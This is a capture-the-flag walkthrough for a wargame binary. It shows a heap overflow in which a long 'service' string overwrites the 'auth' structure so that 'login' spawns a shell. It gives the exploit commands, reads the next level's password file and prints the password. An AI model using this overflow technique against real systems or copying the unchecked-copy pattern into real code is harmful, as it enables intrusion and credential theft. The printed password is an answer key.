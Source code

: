 # Level 08 Walkthrough

## Binary analysis

The binary manages two pointers, `auth` and `service`, and processes commands: `auth`, `reset`, `service`, and `login`. The goal is to manipulate the `auth` structure so that the check `*(auth + 0x20) != 0` passes, which allows us to get a shell when issuing the `login` command.

### Key decompiled code

- **auth**
    ```c
    if (strncmp(buf, "auth ", 5) == 0) {
        auth = malloc(4);
        *auth = 0;
        // ...
        strcpy(auth, user_input); // possible overflow
    }
    ```
- **service**
    ```c
    if (strncmp(buf, "service", 7) == 0) {
        service = strdup(user_input); // can overflow into auth
    }
    ```
- **login**
    ```c
    if (strncmp(buf, "login", 5) == 0) {
        if (*(auth + 0x20) != 0) {
            system("/bin/sh");
        } else {
            printf("Password:\n");
        }
    }
    ```
- **main loop**
    ```c
    while (fgets(buf, 0x80, stdin)) {
        // handle commands: auth, reset, service, login
    }
    ```

## Exploitation

We use the `auth` command to allocate the structure, then the `service` command with a long string to overflow and set the 0x20th byte of the `auth` structure to a non-zero value. Finally, we use the `login` command to trigger the shell.

Example commands:

```
./level8
auth
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
login
cat /home/user/level9/.pass
```

## Result

After running the exploit, we get the password for level9:

```
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

Copy the password for the next level. 
